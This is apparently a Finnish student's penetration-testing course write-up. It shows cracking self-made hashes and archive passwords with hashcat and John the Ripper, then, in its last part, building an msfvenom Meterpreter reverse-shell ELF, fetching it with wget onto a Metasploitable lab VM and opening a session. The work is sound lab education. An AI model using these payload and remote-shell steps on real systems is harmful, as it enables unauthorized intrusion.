


# h4 Leviämässä
Tehtävänanto: Tero Karvinen, Tunkeutumistestaus, https://terokarvinen.com/tunkeutumistestaus/

> https://meta.stackoverflow.com/questions/285551/why-should-i-not-upload-images-of-code-data-errors
>
> You should not post code (or errors/exceptions, logs, configuration, project files, commands typed at a terminal prompt, or anything else that is represented in textual form) as an image because:
>
> - Images cannot be interpreted by screen readers, making them completely inaccessible for users with visual impairments.
> - Code or sample data in images can't be copied and pasted into an editor and compiled in order to reproduce the problem.
> - Images are large and hard to read on mobile devices, and often cost mobile users valuable data.
> - Images can be blocked by corporate proxies, certain school networks, and entire countries (notably China), and therefore the code isn't available to those readers.
> - Images can't be searched and therefore aren't useful to future readers or even present readers using Ctrl+F.
> - ja miljoona muutakin syytä

Jos mielestänne teksti- tai koodiblokit ovat epäselviä tai vaikeaa luettavaa, niin antakaa rakentavaa palautetta, 
mitä mielestänne olisi kivempi lukea (kuvat eivät tee koodien sisällöstä selkeämpää), tulisiko esim. koodipätkät 
pilkkoa enemmän, pitäisikö niitä kommentoida tiheämmin? Rakentava palaute ei ole "teksti oli vähän hankalaa luettavaa", 
koska se ei anna mitään referenssiä siitä, mihin verrattuna hankalaa. Onko se hankalaa esim., koska aihe on vaikea?

Jos epäilette, että tehtävää ei ole oikeasti tehty, niin ottakaa yhteys kurssinvetäjään, jonka vastuulla on selvittää vilppitilanteet.

- x)
    - i) [Artikkelissa](https://terokarvinen.com/2022/cracking-passwords-with-hashcat/) ohjeistetaan Hashcatin käyttöä salasanan murtamiseen.
        - Hashcatin kanssa tarvitaan suuri tiedosto leakattuja salasanoja. Tähän esim.
        [Rockyou:n txt-tiedosto.](https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz)
        - Hashcat tarvitsee tiedon hash tyypistä, selviää komennolla `hashid`
        - Sitten käytetään `hashcat` komentoa. Jos antaa lipun `-o solved`, niin 
        ratkottu salasana löytyy `cat.solved`-tiedostosta.
        - Alkuun vaikuttaa siltä, että hashcat on mukavakäyttöinen. Saa nähdä sitten käytettäessä.

    - ii) [Artikkelissa](https://terokarvinen.com/2023/crack-file-password-with-john/) ohjeistetaan John the Ripperin käyttöä salasanan murtamiseen.
        - John the Ripper on hieman työläämpi asennuttaa vrt. Hashcat, mutta silti yksinkertainen.
        - ZIP:n salasanan murtamiseen käytetään `zip2john`, zipattuun hakemistoon, josta saadaan sen hash.
            - Hashin saannin jälkeen laitetaan `john` hyökkäämään zipin hashiin.
        - Johnilla voi murtaa useita formaatteja. Näköjään pythonia varten joutuu tekemään symbolisen linkin komentojen python ja python3 välille.
        - John the Ripper vaikuttaa kivalta paketilta, sen mukana tulee kaikki tarvittavat työkalut.

- a)

Hashcat oli asennettu jo valmiina Kalissa. 

Hashcatilla pelailua Teron ohjeen mukaan[^8].

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 7 5825U with Radeon Graphics, 2917/5899 MB (1024 MB allocatable), 4MCU

#...snip...
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ ls
rockyou.txt  solved
```

Catataan hashcatin luoma `solved`-tiedosto. Siellä löytyy hashcatin 
murtama salasana.

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ cat solved     
6b1628b016dff46e6fa35684be6acc96:summer
```

Kokeilin hashata salasanan `apple` seuraavilla komennoilla.[^10]

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ echo -n "apple" | md5sum
1f3870be274f6c49b3e31a0c6728957f  -
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ echo -n "apple" | sha256sum
3a7bd3e2360a3d29eea436fcfb7e44c735d117c42d1c1835420b6b9942dd4f1b  -
```

Testataan hashcattia samalla tavalla kuin edellä.

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ hashid -m 1f3870be274f6c49b3e31a0c6728957f
Analyzing '1f3870be274f6c49b3e31a0c6728957f'
[+] MD2 
[+] MD5 [Hashcat Mode: 0]
[+] MD4 [Hashcat Mode: 900]
[+] Double MD5 [Hashcat Mode: 2600]
#...snip...

┌──(kali㉿kali)-[~/stuff/hashed]
└─$ hashid -m 3a7bd3e2360a3d29eea436fcfb7e44c735d117c42d1c1835420b6b9942dd4f1b
Analyzing '3a7bd3e2360a3d29eea436fcfb7e44c735d117c42d1c1835420b6b9942dd4f1b'
[+] Snefru-256 
[+] SHA-256 [Hashcat Mode: 1400]
[+] RIPEMD-256 
#...snip...
```

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ hashcat -m 0 '1f3870be274f6c49b3e31a0c6728957f' rockyou.txt -o solved 
hashcat (v6.2.6) starting 
#...snip...

┌──(kali㉿kali)-[~/stuff/hashed]
└─$ hashcat -m 1400 '3a7bd3e2360a3d29eea436fcfb7e44c735d117c42d1c1835420b6b9942dd4f1b' rockyou.txt -o solved
hashcat (v6.2.6) starting
#...snip...
```

Molemmat komennot onnistuivat ilman ongelmia. Katsotaan solved taas catilla.

```bash
└─$ cat solved
6b1628b016dff46e6fa35684be6acc96:summer
1f3870be274f6c49b3e31a0c6728957f:apple
3a7bd3e2360a3d29eea436fcfb7e44c735d117c42d1c1835420b6b9942dd4f1b:apple
```

Mielenkiintoista! Ohessa vielä lisätiedot SHA-256 hashin murtoon mitä hashcat antoi.
Nopeus n. 2000kH/s taitaa olla melko hidas, mutta niin se Teron artikkelikin[^8] sanoi, 
että virtuaalikoneella olisi hidasta.

```bash
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 3a7bd3e2360a3d29eea436fcfb7e44c735d117c42d1c1835420...dd4f1b
Time.Started.....: Thu Apr 17 08:56:07 2025 (0 secs)
Time.Estimated...: Thu Apr 17 08:56:07 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2036.9 kH/s (0.36ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2048/14344384 (0.01%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> lovers1
Hardware.Mon.#1..: Util: 15%

Started: Thu Apr 17 08:55:55 2025
Stopped: Thu Apr 17 08:56:09 2025
```

- f) 

Tähän väliin f-kohta, kun tajusin että voisin kokeilla vielä `openssl`:lla tuotettua 
salasanaa SHA-512 tiivisteella.

Kokeilin myös suolalla maustettua salasanaa openssl passwd:lla[^6]

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ openssl passwd -6 apple                                                                               
$6$JCD8eLEn0LAGFd6T$ASGGTY1JfWzQ503kmcp2/7ve8LXLCQu8eejUvIEB4V5GOs8.6upPuwBwn0a94EhoHYdoQkvNQQWzfEqAw3vL81
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ hashid -m '$6$JCD8eLEn0LAGFd6T$ASGGTY1JfWzQ503kmcp2/7ve8LXLCQu8eejUvIEB4V5GOs8.6upPuwBwn0a94EhoHYdoQkvNQQWzfEqAw3vL81'
Analyzing '$6$JCD8eLEn0LAGFd6T$ASGGTY1JfWzQ503kmcp2/7ve8LXLCQu8eejUvIEB4V5GOs8.6upPuwBwn0a94EhoHYdoQkvNQQWzfEqAw3vL81'
[+] SHA-512 Crypt [Hashcat Mode: 1800]
```

Testattu vielä murtaa. 

Tällä kertaa ajossa kesti 30sec, kun aiemmat onnistuivat alle 10 sekunnissa. 
Jätin tälle komennolle koko outputin näkyviin lukuharjoitukseksi.

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ hashcat -m 1800 '$6$JCD8eLEn0LAGFd6T$ASGGTY1JfWzQ503kmcp2/7ve8LXLCQu8eejUvIEB4V5GOs8.6upPuwBwn0a94EhoHYdoQkvNQQWzfEqAw3vL81' rockyou.txt -o solved
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 7 5825U with Radeon Graphics, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$JCD8eLEn0LAGFd6T$ASGGTY1JfWzQ503kmcp2/7ve8LXLCQu...w3vL81
Time.Started.....: Thu Apr 17 09:09:05 2025 (1 sec)
Time.Estimated...: Thu Apr 17 09:09:06 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      914 H/s (9.58ms) @ Accel:128 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 768/14344384 (0.01%)
Rejected.........: 0/768 (0.00%)
Restore.Point....: 640/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4608-5000
Candidate.Engine.: Device Generator
Candidates.#1....: sunshine1 -> james1
Hardware.Mon.#1..: Util: 96%

Started: Thu Apr 17 09:08:38 2025
Stopped: Thu Apr 17 09:09:08 2025
```

Ja tutkitaan vielä `solved`ista tulos
                                                                                                                                                                                                                  
```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ cat solved
6b1628b016dff46e6fa35684be6acc96:summer
1f3870be274f6c49b3e31a0c6728957f:apple
3a7bd3e2360a3d29eea436fcfb7e44c735d117c42d1c1835420b6b9942dd4f1b:apple
$6$JCD8eLEn0LAGFd6T$ASGGTY1JfWzQ503kmcp2/7ve8LXLCQu8eejUvIEB4V5GOs8.6upPuwBwn0a94EhoHYdoQkvNQQWzfEqAw3vL81:apple
```

- c, e) 

Sama toimenpide Johnilla. John ja sen kaverit oli asennettuna valmiiksi Kalille.

Generoidaan salasanasuojattu ZIP.[^11]

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ echo "super salaista tietoa" > secretfile.txt             
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ ls
rockyou.txt  secretfile.txt  solved
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ cat secretfile.txt 
super salaista tietoa
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ zip -e protected.zip secretfile.txt 
Enter password: # laitettu salasanaksi appleomena
Verify password: # laitettu salasanaksi appleomena
  adding: secretfile.txt (stored 0%)
```

Ajetaan taas Teron ohjeiden[^9] mukaan suoraan ensin `zip2john`.

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ zip2john protected.zip > protected.zip.hash
ver 1.0 efh 5455 efh 7875 protected.zip/secretfile.txt PKZIP Encr: 2b chk, TS_chk, cmplen=34, decmplen=22, crc=1D78F534 ts=4AA5 cs=4aa5 type=0
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ john protected.zip.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
0g 0:00:04:03  3/3 0g/s 30635Kp/s 30635Kc/s 30635KC/s o4cck5..o4c759
Session aborted
```

4 minuutin jälkeen lopetin, ja päätin antaa sille helpomman salasanan. Näköjään `appleomena`
ei ole niin yleisesti käytetty! Vaihdetaan salasanaksi vain `apple`. Eli tein samat 
toimenpiteet kuin edellä, paitsi nyt salauksen salasana helpomana.

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ john protected.zip.hash                  
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
apple            (protected.zip/secretfile.txt)     
1g 0:00:00:00 DONE 2/3 (2025-04-17 09:30) 6.250g/s 295143p/s 295143c/s 295143C/s 123456..ferrises
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Tällä kertaa salaus hajosi lähes heti. Tulos kertoo aika hyvin kuinka suuri ero 
kompleksisuudelle on pitempi salasana, jossa on kaksi eri kielen sanaa peräkkäin.

Kokeillaan vielä jonin löytämää salasanaa zippiin..

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ unzip protected.zip  
Archive:  protected.zip
[protected.zip] secretfile.txt password: 
password incorrect--reenter: 
replace secretfile.txt? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
 extracting: secretfile.txt          
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ ls
protected.zip  protected.zip.hash  rockyou.txt  secretfile.txt  solved
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ cat secretfile.txt 
super salaista tietoa
```

Tehdään vielä e-kohta tässä samassa. Generoidaan tällä kertaa salattu 7z. Ohjeet 
siihen löytyy man sivuilta[^7]. Seuraavanlaisella komennolla voidaan
ohjeiden avulla tehdä 7z-tiedosto

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ 7z a -p protected.7z secretfile.txt      

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive:
1 file, 31 bytes (1 KiB)

Creating archive: protected.7z

Add new data to archive: 1 file, 31 bytes (1 KiB)


Enter password (will not be echoed): # tähän laitettu apple
    
Files read from disk: 1
Archive size: 202 bytes (1 KiB)
Everything is Ok
```

Nyt `7z2john`:lla generoidaan hashit joiden avulla koitetaan murtaa salaus `john`:illa

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ 7z2john protected.7z > protected.7z.hash
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes

┌──(kali㉿kali)-[~/stuff/hashed]
└─$ john protected.7z.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 13 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 35 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
apple            (protected.7z)     
1g 0:00:03:11 DONE 2/3 (2025-04-17 10:17) 0.005226g/s 43.76p/s 43.76c/s 43.76C/s mike..green
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Siinähän kestikin pitempään kun zipillä. Näköjään 7z:lla on vahvempi kryptaus kuin
zipillä[^2].

Avataan 7z tiedosto annetulla saliksella ja catataan tulos

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ 7z e protected.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 202 bytes (1 KiB)

Extracting archive: protected.7z
--
Path = protected.7z
Type = 7z
Physical Size = 202
Headers Size = 154
Method = LZMA2:12 7zAES
Solid = -
Blocks = 1

    
Enter password (will not be echoed):
    
Would you like to replace the existing file:
  Path:     ./secretfile.txt
  Size:     31 bytes (1 KiB)
  Modified: 2025-04-17 10:00:40
with the file from archive:
  Path:     secretfile.txt
  Size:     31 bytes (1 KiB)
  Modified: 2025-04-17 10:00:40
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? y

Everything is Ok     

Size:       31
Compressed: 202
```

Nyt on 7z tyhjennetty, tarkistetaan filen sisältö.
                                                                                                                                                                                                                  
```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ cat secretfile.txt 
super salaista tietoa 7zippiin
```

- g)

MSFVenomin opettelua varten löytyy hyvän näköiset dokumentaatiot[^1].

Tässä tehtävässä Metasploitin dokkareiden lukemisesta on paljon hyötyä. On myös
hyvä nyt tietää, mihin koneeseen on haittaa tekemässä. Omassa tapauksessani käytössä
on metasploitable3 ubuntu 14.04.

Aloitetaan ajamalla `msfvenom -h`, joka ohjeistaa meitä ajamaan `msfvenom -l payloads`, 
jolla päästään näkemään kaikki payloadit mitä voi lähettää. Siitä saa jo hyvää vinkkiä 
toivottavasti.

Luettuani listaa läpi huomaan muutamia asioita, joita on hyvä filtteröidä tehtävänannon 
perusteella, eli mitä halutaan tehdä? Metasploitin ympäristö on linux, ubuntu 14.04 eli
32-bittinen (x86). 

Itse putkitan sen vielä lessille, niin on helpompi lukea. Filtteröidään muut paitsi 
linux ja x86 pois grepillä. Halutaan myös aikaan reverse-shell, eli infektoitu kone 
yhdistää meihin, jolloin voidaan grepata sanaa reverse_tcp. 

```bash
$ msfvenom -l payloads | grep linux | grep x86 | grep reverse_tcp | less
```

Nyt listaa kun lukee, ja otetaan kaikki payloadit, joita ei haeta palvelimelta 
(eli ne joissa ei lue "Fetch and execute ....") saadaan seuraavanlainen lista.
Käpälöin listaa hieman, jotta se olisi luettavampi (lisäsin # merkit kommenttien edelle,
jotta markdownin bash codeblock erottelee väreillä tekstit).

```bash
    linux/x86/meterpreter/reverse_tcp      #Inject the mettle server payload (staged). Connect back to the attacker
    linux/x86/meterpreter/reverse_tcp_uuid #Inject the mettle server payload (staged). Connect back to the attacker
    linux/x86/meterpreter_reverse_tcp      #Run the Meterpreter / Mettle server payload (stageless)
    linux/x86/metsvc_reverse_tcp           #Stub payload for interacting with a Meterpreter Service
    linux/x86/shell/reverse_tcp            #Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell/reverse_tcp_uuid       #Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell_reverse_tcp            #Connect back to attacker and spawn a command shell
    linux/x86/shell_reverse_tcp_ipv6       #Connect back to attacker and spawn a command shell over IPv6
```

Näistä meterpreter näyttää olevan[^3] enemmän "ohjattu" yhteys. 
Shell on sitten suora yhteys shelliin, ja antaa samalla pääte-mäisen kokemuksen.

Tiedän kali koneen IP:n olevan `192.168.56.10` ajamalla `hostname -I`. Reverse 
shellissä kohdetietokoneen IPtä ei tarvitse tietää etukäteen, koska tarkoituksena on 
että kohde lataa haittaohjelman wepistä ja ajaa sen, jolloin ohjelma soittaa kotiin.

Luodaan nyt tuon OffSecin dokumentaation[^1] läpiluettuna seuraavanlainen komento, 
jonka pitäisi olla hyvin yksinkertainen haittaohjelmaksi, koska siinä ei kikkailla
mitään "haittojen piilottelulla", joten se saattaa jäädä helposti kiinni AV:lle.

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f elf -o shell.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: shell.elf
```

Lippu `-p` antaa payloadin, joka ollaan valittu edellä näkyvästä listasta perusteellisesti.
Lippu `-LHOST` asettaa Local hostin, eli hyökkääjän IP:n. Lippu `-LPORT` asettaa 
portin, jota hyökkääjä kuuntelee. Lippu `-f elf` asettaa tiedoston formaatin `elf`, 
joka mahdollistaa tiedoston ajon linux ympäristössä (vrt. `exe`).

Nyt ohjelma pitäisi saada kohdetietokoneeseen. Eli pitäisi pystyttää http-palvelin
joka antaa pyynnöstä filen eteenpäin. Tähän onneksi on helppo työkalu pythonilla.[^4]

Ajetaan komentorivillä Kalilla seuraava komento.

```bash
┌──(kali㉿kali)-[~]
└─$ cd ~/stuff/hashed # kansio, josta shell.elf haittaohjelma löytyy
                                                                                                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ ls | grep shell
shell.elf
                                                                                                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Nyt mennään metasploitablelle hakemaan tuo tiedosto wgetillä. 

Kirjaudutaan sisään metasploitable koneelle.



Ladataan pythonilla palveltu filu wgetillä.



Metasploitablella on ajettu siis komento `wget 192.168.56.10/shell.elf`, joka 
lataa pythonilla palvellun filen.

Seuraavaksi mennään metasploitin consoleen `msfconsole`. Se mitä konsoliin täytyy
kirjoittaa, jotta ollaan valmiita ottamaan vastaan yhteys `exploit multi/handler`illa
löytyy myös hyvä dokumentaatio[^5]

```bash
┌──(kali㉿kali)-[~/stuff/hashed]
└─$ msfconsole                                                                                      
Metasploit tip: View missing module options with show missing
                                                  

MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
        https://metasploit.com


       =[ metasploit v6.4.56-dev                          ]
+ -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.56.10
LHOST => 192.168.56.10
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started reverse TCP handler on 192.168.56.10:4444 
```

Tässä tapahtuu aika monta asiaa, voidaan käydä ne askel kerrallaan. Tehdään sama 
kuin mitä tehtiin payloadille. Ensiksi konsolissa aktivoidaan tehtävässä 
pyydetty `exploit/multi/handler` 

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

Sitten asetetaan LPORT, LHOST, ja payload. ExitOnSession false varmistaa, ettei 
konsolia suljeta vaikka meterpreter yhteys katkaistaan.

```bash
msf6 exploit(multi/handler) > set LHOST 192.168.56.10
LHOST => 192.168.56.10
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
```

Lopuksi asetetaan `exploit -j` joka jää odottamaan reverse-shell kutsua.

```bash
msf6 exploit(multi/handler) > exploit -j
```

Nyt käydään ajamassa `shell.elf` metasploitable koneella.


Nähdään heti `msfconsole`ssa yhteydenmuodostus. Eli kohde on soittanut meille kotiin!

```bash
[*] Sending stage (1017704 bytes) to 192.168.56.11
[*] Meterpreter session 1 opened (192.168.56.10:4444 -> 192.168.56.11:34788) at 2025-04-17 11:56:07 -0400
```

Enää tarvitsee käynnistää session. Kirjoitetaan msfconsoleen `sessions`, niin nähdään 
käynnissä olevat sessionit (näkisi sen session: 1 tuolta ylempääkin). Sen jälkeen `sessions -i ID`, missä ID on se id joka näkyy
sessions listauksessa, tässä tapauksessa `sessions -i 1`.

```bash
sessions

Active sessions
===============

  Id  Name  Type                   Information              Connection
  --  ----  ----                   -----------              ----------
  1         meterpreter x86/linux  vagrant @ 192.168.56.11  192.168.56.10:4444 -> 192.168.56.11:34788 (192.168.56.11)

msf6 exploit(multi/handler) > session -i 1
[-] Unknown command: session. Did you mean sessions? Run the help command for more details.
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...
```

Yhteys on nyt muodostettu. Kokeillaan `ls` ja `mkdir`

```bash
meterpreter > ls
Listing: /home/vagrant
======================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100644/rw-r--r--  220       fil   2020-10-29 15:25:36 -0400  .bash_logout
100644/rw-r--r--  3637      fil   2020-10-29 15:25:36 -0400  .bashrc
040755/rwxr-xr-x  4096      dir   2020-10-29 15:26:24 -0400  .bundle
040700/rwx------  4096      dir   2020-10-29 15:26:05 -0400  .cache
040700/rwx------  4096      dir   2020-10-29 15:34:13 -0400  .gnupg
040755/rwxr-xr-x  4096      dir   2020-10-29 15:37:51 -0400  .npm
100644/rw-r--r--  675       fil   2020-10-29 15:25:36 -0400  .profile
100644/rw-r--r--  5         fil   2020-10-29 15:26:05 -0400  .vbox_version
100644/rw-r--r--  86562816  fil   2020-10-29 15:26:07 -0400  VBoxGuestAdditions.iso
100775/rwxrwxr-x  207       fil   2025-04-17 11:36:08 -0400  shell.elf

meterpreter > mkdir lemonishwashere
Creating directory: lemonishwashere
meterpreter > ls
Listing: /home/vagrant
======================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100644/rw-r--r--  220       fil   2020-10-29 15:25:36 -0400  .bash_logout
100644/rw-r--r--  3637      fil   2020-10-29 15:25:36 -0400  .bashrc
040755/rwxr-xr-x  4096      dir   2020-10-29 15:26:24 -0400  .bundle
040700/rwx------  4096      dir   2020-10-29 15:26:05 -0400  .cache
040700/rwx------  4096      dir   2020-10-29 15:34:13 -0400  .gnupg
040755/rwxr-xr-x  4096      dir   2020-10-29 15:37:51 -0400  .npm
100644/rw-r--r--  675       fil   2020-10-29 15:25:36 -0400  .profile
100644/rw-r--r--  5         fil   2020-10-29 15:26:05 -0400  .vbox_version
100644/rw-r--r--  86562816  fil   2020-10-29 15:26:07 -0400  VBoxGuestAdditions.iso
040775/rwxrwxr-x  4096      dir   2025-04-17 12:02:08 -0400  lemonishwashere # <-- mikäs se siinä
100775/rwxrwxr-x  207       fil   2025-04-17 11:36:08 -0400  shell.elf
```


Voisi sanoa tehtävän onnistuneen!

# Viittaukset
[^1]: OffSec, Metasploit Unleashed, https://www.offsec.com/metasploit-unleashed/introduction/
[^2]: InfoSec StackExchange, Encryption Using 7z or Zip File, https://security.stackexchange.com/questions/210069/encryption-using-7z-or-zip-file
[^3]: OffSec, Meterpreter Scripting, https://www.offsec.com/metasploit-unleashed/meterpreter-scripting/
